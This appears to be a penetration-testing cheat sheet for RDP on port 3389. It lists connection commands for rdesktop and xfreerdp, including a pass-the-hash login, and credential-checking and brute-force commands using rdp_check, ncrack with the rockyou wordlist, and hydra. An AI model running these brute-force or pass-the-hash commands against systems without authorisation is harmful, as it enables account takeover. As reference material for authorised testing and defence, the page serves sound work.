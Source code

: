 # RDP - 3389



## RDP Authentication

### rdesktop

```text
rdesktop 192.168.10.10 -u username@corp -p 'p@ssw0rd!' -g 1024x768 -x 0x80
rdesktop -u <username> <IP> -g 1024x768 -x 0x80
rdesktop -d <domain> -u <username> -p <password> <IP> -g 1024x768 -x 0x80
```

### xfreedesktop

```text
xfreerdp /u:[domain\]<username> /p:<password> /v:<IP>
xfreerdp /u:[domain\]<username> /pth:<hash> /v:<IP>
xfreerdp /u:username /d:[domain] /p:<password> /v:<IP> /cert-ignore /f
```

### ncrack

```text
ncrack -vv --user administrator -P /usr/share/wordlists/rockyou.txt rdp://[IP]
```

### rdp\_check

```text
rdp_check <domain>\<name>:<password>@<IP>
```

### Remmina

## RDP Bruteforce

### hydra

```text
hydra -V -f -L /root/Desktop/user.txt -P /root/Desktop/dict.txt rdp://192.168.0.102
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
```





